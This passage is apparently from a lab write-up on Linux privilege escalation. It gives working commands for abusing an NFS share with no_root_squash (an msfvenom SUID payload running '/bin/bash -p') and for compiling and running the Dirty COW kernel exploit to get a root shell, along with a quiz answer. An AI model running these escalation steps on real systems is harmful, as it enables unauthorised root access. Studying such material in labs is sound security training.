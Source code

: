 ```
`mount -o rw,vers=2 REMOTE_IP:/tmp /tmp/nfs`

![image](https://user-images.githubusercontent.com/14150485/172828679-2f6b9150-920c-484f-8cb8-e67566f5421e.png)

Follow the instructions to generate an `mfsvenom` payload in the mounted share:

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172828996-2201ee3b-3804-48a7-8b62-7f40d8b99b8b.png)

Now set SUID permissions on the payload file:

```
chmod +xs /tmp/nfs/shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172829165-568c0701-f950-4a72-a3ee-ca05430afb34.png)

Running the payload from the target machine will escalate the privileges to root:

```
/tmp/shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172829346-0bee6d14-7cd5-4925-84ca-03a6cfc026e3.png)

<br/>

#### 19.1: What is the name of the option that disables root squashing?

```
no_root_squash
```

<br/>
<br/>

### 20: Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort. In this task we will be running the `Linux Exploit Suggester 2` tool to identify potential kernel exploits on the target system:

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

The `Dirty COW` exploit comes up on the list. An exploit for this can be found under `/home/user/tools/kernel-exploits/dirtycow/c0w.c`. The xploit essentially replaces the SUID file `/usr/bin/passwd` with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak). Let's proceed to compile the code and run it.

`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w`
`./c0w`

![image](https://user-images.githubusercontent.com/14150485/172830885-11c951bc-b68e-4300-a9d2-392227275ce6.png)

Once the exploit finishes running, executing `/usr/bin/passwd` will spawn a root shell:
```
